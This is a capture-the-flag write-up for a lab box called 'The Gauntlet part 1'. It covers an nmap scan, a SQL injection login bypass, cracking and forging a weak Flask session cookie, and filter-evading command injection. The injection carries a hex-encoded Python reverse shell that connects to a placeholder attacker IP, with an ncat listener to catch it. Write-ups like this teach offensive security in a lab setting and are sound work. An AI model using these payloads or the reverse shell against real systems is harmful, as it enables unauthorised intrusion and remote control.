 ```yaml
---
title: The Gauntlet part 1
tags: [boot2root, sqli, flask, flask-session, rce, nordics-ddc-ecsc-2025]
date: 2025-03-17 00:00:02
draft: false
heroImage: ./assets/cyberlandslaget-ddc.png
---
```


# The Gauntlet part 1

<style>
.basis-1\/5{flex-basis: 5% !important;}
.max-w-prose{max-width: 100ch !important;}
.prose{max-width: 100ch !important;}
</style>

```
So, you think you're a l33t h4xx0r? Alright, here's my little gauntlet to you then: 
Break in through the website and get a shell one way or another. Once that's done, 
escalate your privileges and own the box. 

You won't be needing any fancy kernel exploits or such, this one's all about bad practices 
and misconfigurations. Doesn't sound too hard, now does it? Good luck!

Flag binaries are located at /home/*****/user.flag and /root/root.flag 
the-gauntlet.hkn
```

## Prerequisites
This writeup will be missing the rabbit holes, and other wrong paths I took. I decided to do this to save time so I can write more writeups. I might decide to write a more complete one later, so this will be a writeup in the mind of someone not doing any mistakes. But I'm happy to talk on the discord to discuss the challenge.

## Finding ports
There is no website available at the ip we get from the Campfire. So next step is to port scan to figure where to start.

```
nmap -sV -v the-gauntlet.hkn
```

The result is back

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have ssh port open at 22 and tcp port at 5000.

## Website
When going to `the-gauntlet.hkn:5000` we get to a website with following html

```html
...
<body>
    <div class="container">
        <h1>Welcome.</h1>
        <p>This is my small gauntlet to you.</p>
        <p>It's simple: find a way in, get a shell
        <!-- (no flag before that!) -->, escalate your privileges
        <!-- .. a few times .. -->.</p>
        <p>There will be no need for web enumeration
        <!-- (scanning for files/directories, etc.) -->. 
        The steps ahead should be clear to you.</p>
        <p>Once you have a shell on the box, 
        deep enumeration shouldn't be necessary.</p>
        <p>Enjoy.</p>
        <a href="/login">Login</a> |
        <a href="/admin">Admin</a> 
    </div>
</body>
</html>
```

### Login page
We see there are links to a login and admin page. Admin page responds with 
```
Access denied. Admins only.
```

Login page allows us to input username and password.

We don't know any accounts, so usually when there is no source code it can be a sign of sql injection. 

After looking at sql injection cheatsheets, this worked to login.

```sql
' OR 1==1; --
```

We get following html after logging in
```html
...
<body>
    <div class="container">
        <h1>Welcome Bob!</h1>
        <p>You are a regular user.</p>
        <a href="/logout">Logout</a> |
        <a href="/admin">Admin</a>
    </div>
</body>
</html>
```

So we are not admin yet.

### Flask Session
When looking at requests while logging in, we get a flask session cookie

```
eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9VHJQ.-m3orXMcfEzMkMWdElSF0LcclfY
```

Putting the token into [jwt.io](https://jwt.io/) we get the following decoded header
```json
{
  "user": {
    "is_admin": false,
    "username": "Bob"
  }
}
```

So knowing the code had a sql injection, it could be possible for the secret being weak.

[flask-unsign](https://github.com/Paradoxis/Flask-Unsign) is a known tool that makes cracking this easier.

I download `rockyou.txt` as it's a low hanging fruit password list and try it out with the unsign option.

```bash
flask-unsign --unsign --cookie \
"eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9VHJQ.-m3orXMcfEzMkMWdElSF0LcclfY" \
--no-literal-eval --wordlist rockyou.txt 
```

We then get back 
```bash
[*] Session decodes to: {'user': {'is_admin': False, 'username': 'Bob'}}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 11264 attempts
b'itsasecret'
```


We can use the secret to create our own token that works with the website. 

```bash
flask-unsign --sign --cookie "{'user': {'is_admin': True, 'username': 'Bob'}}" --secret 'itsasecret'
```

this generated the token
```
eyJ1c2VyIjp7ImlzX2FkbWluIjp0cnVlLCJ1c2VybmFtZSI6IkJvYiJ9fQ.Z9VLGA.Y36X4rBlVwVDoXUAMsUjGnkI-GM
```

### Remote Code Execution

and we can then login as the admin by replacing our session token with the token we in previous section

```html
...
<body>
    <div class="container">
        <h2>Admin Page</h2>
        <pre></pre>
        <form method="post">
            Host check: <input type="text" name="command" value="127.0.0.1"><br>
            <input type="submit" value="Submit">
        </form>
    </div>
</body>
</html>
```

When we try to submit we get the following output back in the html

```bash
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.032/0.032/0.032/0.000 ms
```

This looks like a result of a ping command, so next step seems to do a command injection to get access to the box.

Trying out different escape sequences reveals there is a blacklist of characters. 
Quick example is submitting a `;` results in following message

```
Illegal characters detected!
```

I found that `$(whoami)` works and gives us the error
```
ping: user1: Name or service not known
```

Space is also banned, but `${IFS}` works as an alternative to space.

I decided to use python3 and decoding hex to get a reverse shell

<pre class="astro-code github-dark" style="background-color:#24292e;color:#e1e4e8; overflow-x: auto; word-wrap: break-word; white-space: normal !important;">
<code style="white-space: normal !important;">
$(python3${IFS}-c${IFS}'exec(bytes.fromhex("696d706f7274206f732c7074792c736f636b65743b733d736f636b65742e736f636b657428293b732e636f6e6e656374282822782e782e782e78222c313530343329293b5b6f732e6475703228732e66696c656e6f28292c6629666f72206620696e28302c312c32295d3b7074792e737061776e2822626173682229").decode())')
</code>
</pre>

The bytes from hex is following code
```python
import os,pty,socket;s=socket.socket();s.connect(("x.x.x.x",15043));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```

Where `x.x.x.x` needs to be your ip either found in the browser lab, or vpn settings.

I open up a reverse proxy listener with following command

```
ncat -lvnp 15043
```

after sending the command I get access to the shell.

### Flag
We run the command `./user.flag` and get the flag for part 1

```
DDC{n0th1ng_l1k3_4_b1t_0f_RCE}
```

The challenge continues with part 2.